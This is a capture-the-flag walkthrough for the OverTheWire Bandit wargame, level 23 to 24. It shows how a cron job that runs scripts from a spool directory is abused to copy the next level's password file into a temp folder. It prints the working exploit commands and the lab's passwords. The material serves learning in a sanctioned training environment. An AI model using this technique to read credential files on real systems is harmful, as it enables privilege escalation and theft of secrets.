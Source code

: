 # Level 23
## Connection
~~~
ssh bandit23@bandit.labs.overthewire.org -p2220
password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
~~~

## Goal
A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

*NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!*

*NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…*

Commands you may need to solve this level: `cron`, `crontab`, `crontab(5)` (use “`man 5 crontab`” to access this)

## Solution
Same story as the 2 previous levels, go to `/etc/cron.d`, see the content of the file, read the shell, ...
~~~
bandit23@bandit:~$ ls -l /etc/cron.d
total 16
-rw-r--r-- 1 root root 189 Jan 25  2017 atop
-rw-r--r-- 1 root root 120 Oct 16  2018 cronjob_bandit22
-rw-r--r-- 1 root root 122 Oct 16  2018 cronjob_bandit23
-rw-r--r-- 1 root root 120 Oct 16  2018 cronjob_bandit24
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
~~~

OK so let's first create a temporary directory in which our password will be saved and create an empty file where our password will be stored:
~~~
$ mkdir /tmp/ytrewq/
$ touch bandit24
$ chmod 666 bandit24
~~~

Now, let's create our script. It will dump the password to our temporary directory and make it executable:
~~~
$ echo -ne '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/ytrewq/bandit24' > /var/spool/bandit24/ytrewq.sh;chmod +x /var/spool/bandit24/ytrewq.sh
~~~

Let's wait 1 minute (the commands are executed every 60 seconds by the cron thanks to the `timeout` command with the parameter `60`) and let's access our password:
~~~
$ cat /tmp/ytrewq/bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
~~~

# Flag
~~~
level24:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
~~~